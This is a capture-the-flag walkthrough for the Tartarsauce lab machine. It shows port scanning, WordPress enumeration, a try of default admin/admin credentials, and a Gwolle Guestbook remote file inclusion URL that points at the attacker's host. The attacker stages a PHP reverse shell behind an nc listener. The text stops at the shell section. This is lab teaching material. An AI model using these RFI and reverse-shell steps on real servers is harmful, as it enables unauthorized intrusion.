#### Tartarsauce

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Apache Shell using RFI](#apache-shell-using-rfi)
- [User shell using gtfobins](#user-shell-using-gtfobins)
- [Privilege Escalation](#privilege-escalation)
- [Gaining root](#gaining-root)

###### Attacker Info

```sh
root@kali:~/tartarsauce# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:b0:a9:19 brd ff:ff:ff:ff:ff:ff
    inet 10.0.0.81/24 brd 10.0.0.255 scope global dynamic noprefixroute eth0
       valid_lft 590693sec preferred_lft 590693sec
    inet6 2601:5cc:c900:4024::ea8d/128 scope global dynamic noprefixroute
       valid_lft 590694sec preferred_lft 590694sec
    inet6 2601:5cc:c900:4024:ed9e:3150:d23d:fca0/64 scope global temporary dynamic
       valid_lft 319682sec preferred_lft 72291sec
    inet6 2601:5cc:c900:4024:20c:29ff:feb0:a919/64 scope global dynamic mngtmpaddr noprefixroute
       valid_lft 319682sec preferred_lft 319682sec
    inet6 fe80::20c:29ff:feb0:a919/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    link/none
    inet 10.10.14.8/23 brd 10.10.15.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::1006/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::256f:5c04:c363:556a/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
root@kali:~/tartarsauce#
```

###### Nmap Scan

```sh
root@kali:~/tartarsauce# nmap -sC -sV -oA tartarsauce.nmap 10.10.10.88
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-05 06:00 EST
Nmap scan report for 10.10.10.88
Host is up (0.16s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Landing Page

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.83 seconds
root@kali:~/tartarsauce#
```





###### Web Enumeration

```sh
root@kali:~/tartarsauce# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://10.10.10.88/webservices

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.88/webservices/
[+] Threads      : 50
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 302,307,200,204,301
=====================================================
/wp (Status: 301)
=====================================================
root@kali:~/tartarsauce#
```

```
http://10.10.10.88/robots.txt
http://10.10.10.88/webservices/monstra-3.0.4/
```












```
http://10.10.10.88/webservices/wp/
http://10.10.10.88/webservices/wp/wp-login.php
```




```
http://10.10.10.88/webservices/monstra-3.0.4/admin/
```



```
admin
admin
```


```
http://10.10.10.88/webservices/monstra-3.0.4/admin/index.php?id=dashboard
```



```sh
root@kali:~/tartarsauce# wpscan -u http://10.10.10.88/webservices/wp/ -e ap
_______________________________________________________________
        __          _______   _____
        \ \        / /  __ \ / ____|
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team
                       Version 2.9.3
          Sponsored by Sucuri - https://sucuri.net
   @_WPScan_, @ethicalhack3r, @erwan_lr, pvdl, @_FireFart_
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o [A]bort, default: [N]Y
[i] Updating the Database ...
[i] Update completed.
[+] URL: http://10.10.10.88/webservices/wp/
[+] Started: Mon Nov  5 06:12:51 2018

[!] The WordPress 'http://10.10.10.88/webservices/wp/readme.html' file exists exposing a version number
[+] Interesting header: LINK: <http:/10.10.10.88/webservices/wp/index.php/wp-json/>; rel="https://api.w.org/"
[+] Interesting header: SERVER: Apache/2.4.18 (Ubuntu)
[+] XML-RPC Interface available under: http://10.10.10.88/webservices/wp/xmlrpc.php

[+] WordPress version 4.9.4 (Released on 2018-02-06) identified from meta generator, links opml
[!] 5 vulnerabilities identified from the version number

[!] Title: WordPress <= 4.9.4 - Application Denial of Service (DoS) (unpatched)
    Reference: https://wpvulndb.com/vulnerabilities/9021
    Reference: https://baraktawily.blogspot.fr/2018/02/how-to-dos-29-of-world-wide-websites.html
    Reference: https://github.com/quitten/doser.py
    Reference: https://thehackernews.com/2018/02/wordpress-dos-exploit.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389

[!] Title: WordPress 3.7-4.9.4 - Remove localhost Default
    Reference: https://wpvulndb.com/vulnerabilities/9053
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/804363859602d4050d9a38a21f5a65d9aec18216
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10101
[i] Fixed in: 4.9.5

[!] Title: WordPress 3.7-4.9.4 - Use Safe Redirect for Login
    Reference: https://wpvulndb.com/vulnerabilities/9054
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/14bc2c0a6fde0da04b47130707e01df850eedc7e
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10100
[i] Fixed in: 4.9.5

[!] Title: WordPress 3.7-4.9.4 - Escape Version in Generator Tag
    Reference: https://wpvulndb.com/vulnerabilities/9055
    Reference: https://wordpress.org/news/2018/04/wordpress-4-9-5-security-and-maintenance-release/
    Reference: https://github.com/WordPress/WordPress/commit/31a4369366d6b8ce30045d4c838de2412c77850d
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-10102
[i] Fixed in: 4.9.5

[!] Title: WordPress <= 4.9.6 - Authenticated Arbitrary File Deletion
    Reference: https://wpvulndb.com/vulnerabilities/9100
    Reference: https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/
    Reference: http://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/
    Reference: https://github.com/WordPress/WordPress/commit/c9dce0606b0d7e6f494d4abe7b193ac046a322cd
    Reference: https://wordpress.org/news/2018/07/wordpress-4-9-7-security-and-maintenance-release/
    Reference: https://www.wordfence.com/blog/2018/07/details-of-an-additional-file-deletion-vulnerability-patched-in-wordpress-4-9-7/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12895
[i] Fixed in: 4.9.7

[+] WordPress theme in use: voce - v1.1.0

[+] Name: voce - v1.1.0
 |  Latest version: 1.1.0 (up to date)
 |  Last updated: 2017-09-01T00:00:00.000Z
 |  Location: http://10.10.10.88/webservices/wp/wp-content/themes/voce/
 |  Readme: http://10.10.10.88/webservices/wp/wp-content/themes/voce/readme.txt
 |  Style URL: http://10.10.10.88/webservices/wp/wp-content/themes/voce/style.css
 |  Referenced style.css: wp-content/themes/voce/style.css
 |  Theme Name: voce
 |  Theme URI: http://limbenjamin.com/pages/voce-wp.html
 |  Description: voce is a minimal theme, suitable for text heavy articles. The front page features a list of rece...
 |  Author: Benjamin Lim
 |  Author URI: https://limbenjamin.com

[+] Enumerating plugins from passive detection ...
[+] No plugins found

[+] Enumerating all plugins (may take a while and use a lot of system resources) ...

   Time: 01:50:21 <=================================================================================================================================================> (77298 / 77298) 100.00% Time: 01:50:21

[+] We found 3 plugins:

[+] Name: akismet - v4.0.3
 |  Last updated: 2018-10-30T16:34:00.000Z
 |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/
 |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/akismet/readme.txt
[!] The version is out of date, the latest version is 4.0.8

[+] Name: brute-force-login-protection - v1.5.3
 |  Latest version: 1.5.3 (up to date)
 |  Last updated: 2017-06-29T10:39:00.000Z
 |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/
 |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt

[+] Name: gwolle-gb - v2.3.10
 |  Last updated: 2018-10-30T15:32:00.000Z
 |  Location: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/
 |  Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
[!] The version is out of date, the latest version is 2.6.6

[!] Title: Gwolle Guestbook <= 2.5.3 - Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/9109
    Reference: http://seclists.org/fulldisclosure/2018/Jul/89
    Reference: http://www.defensecode.com/advisories/DC-2018-05-008_WordPress_Gwolle_Guestbook_Plugin_Advisory.pdf
    Reference: https://plugins.trac.wordpress.org/changeset/1888023/gwolle-gb
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17884
[i] Fixed in: 2.5.4

[+] Finished: Mon Nov  5 08:04:30 2018
[+] Requests Done: 77699
[+] Memory used: 92.062 MB
[+] Elapsed time: 01:51:38
root@kali:~/tartarsauce#
```

```sh
root@kali:~/tartarsauce# searchsploit Gwolle
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
WordPress Plugin Gwolle Guestbook 1.5. | exploits/php/webapps/38861.txt
--------------------------------------- ----------------------------------------
Shellcodes: No Result
root@kali:~/tartarsauce#
```

```sh
root@kali:~/tartarsauce# searchsploit -m exploits/php/webapps/38861.txt
  Exploit: WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion
      URL: https://www.exploit-db.com/exploits/38861/
     Path: /usr/share/exploitdb/exploits/php/webapps/38861.txt
File Type: UTF-8 Unicode text, with very long lines, with CRLF line terminators

Copied to: /root/tartarsauce/38861.txt


root@kali:~/tartarsauce#
```

```sh
root@kali:~/tartarsauce# cat 38861.txt | grep hackers_website
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
root@kali:~/tartarsauce#
```

```sh
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.8:9001/test
```

```sh
root@kali:~/tartarsauce# nc -nlvp 9001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.88.
Ncat: Connection from 10.10.10.88:49180.
GET /testwp-load.php HTTP/1.0
Host: 10.10.14.8:9001
Connection: close
```

```sh
root@kali:~/tartarsauce# locate php-reverse-shell.php
/usr/share/beef-xss/modules/exploits/m0n0wall/php-reverse-shell.php
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
root@kali:~/tartarsauce#
```

```sh
root@kali:~/tartarsauce# cp /usr/share/laudanum/php/php-reverse-shell.php wp-load.php
```

###### Apache Shell using RFI

```sh
root@kali:~/tartarsauce# nano wp-load.php
```

